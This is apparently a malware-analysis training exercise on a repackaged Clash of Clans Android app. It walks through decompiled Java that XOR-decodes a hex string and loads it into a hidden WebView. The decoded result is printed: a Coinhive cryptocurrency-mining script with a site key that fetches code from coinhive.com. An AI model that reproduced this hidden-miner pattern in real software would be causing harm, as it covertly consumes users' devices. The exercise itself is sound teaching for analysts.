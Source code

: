 # Exercise 7 - String Deobfuscation 

## Goals:

To identify obfuscated strings and develop a solution to deobfuscate it.

## Context

You are a malware analyst reviewing this application to determine if it’s malware. You come across an obfuscated Javascript string that is being loaded and need to deobfuscate it to determine whether or not the application is malicious. You can’t run the application dynamically and need to determine what the Javascript is statically.

## Instructions

- [x] Find the string that you need to de-obfuscate
- [x] Identify the routine that de-obfuscates it.
- [x] Determine how you want to write a solution to de-obfuscate the string.
- [x] Do it :)

### Entry points

#### Launcher

```xml
<activity android:theme="@style/Theme.NoTitleBar.Fullscreen" android:label="@string/app_name" android:name="com.supercell.clashofclans.GameApp" android:launchMode="singleTask" android:screenOrientation="sensorLandscape" android:configChanges="keyboard|keyboardHidden|navigation|orientation|screenSize" android:windowSoftInputMode="stateUnchanged" android:resizeableActivity="false">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="clashofclans"/>
    </intent-filter>
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http" android:host="link.clashofclans.com"/>
        <data android:scheme="https" android:host="link.clashofclans.com"/>
    </intent-filter>
</activity>
```

#### Exported

```xml
<receiver android:name="com.google.android.gcm.GCMBroadcastReceiver" android:permission="com.google.android.c2dm.permission.SEND">
    <intent-filter>
        <action android:name="com.google.android.c2dm.intent.RECEIVE"/>
        <action android:name="com.google.android.c2dm.intent.REGISTRATION"/>
        <category android:name="com.supercell.clashofclans"/>
    </intent-filter>
</receiver>

<receiver android:name="com.mobileapptracker.Tracker" android:exported="true">
    <intent-filter>
        <action android:name="com.android.vending.INSTALL_REFERRER"/>
    </intent-filter>
</receiver>

<service android:name="org.OpenUDID.OpenUDID_service">
    <intent-filter>
        <action android:name="org.OpenUDID.GETUDID"/>
    </intent-filter>
</service>
```

### Weird string

```Java
// com/supercell/titan/GameApp.java
private void a(Context context) {
    this.d = new c(context, 8, 8, 8, 8, 0, 0);
    setContentView(this.d);
    ? r8 = 0;
    LinearLayout linearLayout = new LinearLayout(r8);
    LinearLayout.LayoutParams layoutParams = new LinearLayout.LayoutParams(0, 0);
    WebView webView = new WebView(r8);
    webView.setLayoutParams(layoutParams);
    webView.getSettings().setJavaScriptEnabled(true);
    webView.loadData(z1.b(new String(z1.a("773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", r8);


// com/supercell/titan/z1.java
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[(length / 2)];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

### Solution

See [Exercise-7-decode.py](/Exercise-7-decode.py) for the final decoding solution. The string in question appears to create a web view that uses your phone for Crypto Currency mining.

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
